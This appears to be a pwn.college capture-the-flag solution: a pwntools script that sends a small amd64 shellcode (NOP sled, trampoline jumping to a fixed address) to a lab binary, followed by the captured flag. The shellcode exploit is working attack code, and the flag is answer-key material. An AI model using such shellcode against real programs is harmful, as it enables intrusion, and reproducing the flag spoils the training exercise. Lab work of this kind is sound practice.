```py
from pwn import asm, context, process

context.update(arch='amd64')

shellcode = asm("""
    jmp trampoline
    .rept 0x51
    nop
    .endr
trampoline:
    pop rdi
    mov rax, 0x403000
    jmp rax
""")

p = process('/challenge/run')
p.send(shellcode)
print(p.recvall().decode())
```

pwn.college{kjqZH9_v50lVGrLX5p5vp9hq5PN.dBTMywyMyITMyEzW}

![image](https://github.com/user-attachments/assets/ff469626-3059-45de-94f0-560368ab9628)
